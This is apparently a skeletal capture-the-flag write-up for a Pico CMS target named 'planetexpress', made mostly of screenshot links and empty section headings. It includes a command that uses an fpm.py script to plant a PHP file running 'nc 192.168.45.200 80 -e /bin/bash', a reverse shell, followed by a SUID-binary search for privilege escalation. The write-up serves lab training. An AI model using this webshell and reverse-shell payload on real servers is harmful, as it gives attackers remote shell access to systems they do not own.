 #Pwned! 

## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP

https://github.com/picocms/Pico/blob/master/plugins/DummyPlugin.php

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171831.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171757.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923172242.png?raw=true)

```
python fpm.py express.pg /var/www/html/planetexpress/plugins/PicoTest.php -c "<?php passthru('nc 192.168.45.200 80 -e /bin/bash');?>"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190339.png?raw=true)

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190627.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923191257.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193705.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193856.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz


